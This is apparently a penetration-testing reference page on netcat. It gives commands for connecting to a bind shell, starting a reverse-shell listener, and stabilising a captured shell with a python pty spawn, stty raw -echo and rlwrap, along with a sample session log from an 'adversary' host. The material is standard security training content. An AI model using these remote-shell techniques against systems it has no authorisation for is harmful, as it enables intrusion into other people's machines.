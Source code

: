 # Netcat

[Netcat](https://www.kali.org/tools/netcat/) is a simple Unix utility which reads and writes data across network connections using TCP or UDP protocol. It is designed to be a reliable “back-end” tool that can be used directly or easily driven by other programs and scripts. At the same time it is a feature-rich network debugging and exploration tool, since it can create almost any kind of connection you would need and has several interesting built-in capabilities.

Kali's `nc` is the “classic” netcat, written by Hobbit. It lacks many features found in netcat-openbsd.

## Netcat bind shell

To obtain a bind shell on a target where there is already a listener waiting on a chosen port of the target:

    # nc <target-ip> <chosen-port>

## Netcat reverse shell

Starting a `netcat` listener on Linux for receiving from a reverse shell of the target:

    # nc -lvnp <port-number>

## Stabilising netcat shells

Stabilise a `netcat` shell on Linux systems:

* Spawn a better featured bash shell
* Export to have access to term commands such as `clear`
* Background the shell with `Ctrl+Z`. Back in our own terminal, use `stty raw -echo; fg` to turn off terminal echo 
(which gives access to tab autocompletes, the arrow keys, and `Ctrl+C` to kill processes) and foreground the shell 
again. 

```text
adversary@kali:~# nc -lvnp <port-number>
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::<port-number>
Ncat: Listening on 0.0.0.0:<port-number>
Ncat: Connection from <target IP address>.
Ncat: Connection from <target IP address>:<target port-number>.
python -c 'import pty;pty.spawn("/bin/bash")'
shell@linux:~$ export TERM=xterm
shell@linux:~$ ^Z
[1]+ Stopped        nc -lvnp <port-number>
adversary@kali:~# stty raw -echo; fg
nc -lvnp <port-number>

shell@linux:~$ whoami
shell
```

If the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). 
To fix this, type `reset` and press enter.

For Windows shells, `rlwrap` can give access to history, tab autocompletion and the arrow keys immediately when 
receiving a shell, but some manual stabilisation must still be used to be able to use `Ctrl+C` inside the shell. 
`rlwrap` is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

Then use:

    adversary@kali:~# rlwrap nc -lvnp <port-number>

The third way to stabilise a shell is to use a netcat shell as a stepping stone into a more fully-featured `socat` 
shell. 
